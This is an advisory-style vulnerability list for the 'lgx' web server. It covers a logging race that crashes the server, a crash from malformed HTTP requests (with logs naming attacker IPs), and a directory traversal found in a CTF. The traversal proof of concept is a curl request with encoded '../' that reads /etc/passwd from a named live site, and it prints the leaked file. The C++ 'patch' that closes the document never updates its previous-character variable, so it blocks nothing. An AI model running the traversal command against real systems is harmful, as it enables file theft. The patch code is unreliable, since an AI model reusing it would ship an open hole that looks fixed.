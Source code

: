 # LGX CVE LIST



### LGX-CVE-2020-1003 

#### Intro

Frequent disconnection, multi thread competition, log module write to memory at the same time, resulting in memory error, server crash

```
Open file [www//cssfont_1429596_nzgqgvnmkjb.css] failed!
recv 0 DISCONNECTING
Open file [www//js/gitalk.min.css] failed!
terminate called after throwing an instance of 'std::bad_alloc'
  what():  std::bad_alloc
[1]    37779 abort      sudo ./lgx -r


...
Open file [www/js/photoswipe-ui-default.min.js] failed!
terminate called after throwing an instance of 'std::length_error'
  what():  basic_string::_M_create
  
 
...
Open file [www/cssfont_1429596_nzgqgvnmkjb.css] failed!
[1]    44529 segmentation fault  sudo ./lgx -r
```

#### fixed

Synchronization log module



## LGX-CVE-2020-1017

### Intro

Malicious forgery of HTTP protocol leads to the Server HTTP protocol parsing error, causing the server to crash. The cause of the crash is being found

Victim website: http://i0gan.cn 

Attacker address: TaiWan

```log
connected: ip: 47.101.34.11448168
2020-10-17 02:39:47
request: get
2020-10-17 03:21:52
connected: ip: 122.117.46.24142784
2020-10-17 03:21:52
ERROR_PARSING_URL:
2020-10-17 03:24:09
connected: ip: 59.126.74.10433939
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
......
......
request:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
```

This attack just take a one minute then make the lgx server break down.



## LGX-CVE-2020-1125

### Intro

In the AXB 2020 CTF competition, the framework of the server is used to make a pwn challenge. However, the contestants give an unexpected solution. Directory traversal vulnerability can cause any sensitive file to be leaked. This vulnerability is also the vulnerability of lgx server at present.

poc

```
┌[logan☮arch]-(~)
└> curl -i "http://i0gan.cn/..%2f..%2f..%2f../etc/passwd"
HTTP/1.1 200 OK
Content-Length: 1902
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: obj
Keep-Alive: timeout=4
Proxy-Connection: keep-alive
Server: lgx-linux1.6

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

```

### patch

Add a check_file_name function to check traversal vulnerability.

```c++
bool lgx::net::http::check_file_path(const std::string &file_name) {
    char last_ch = 0;
    for (auto ch : file_name) {
        if(ch == '.')
            if(last_ch == '.')
                return false;
    }
    return true;
}
```



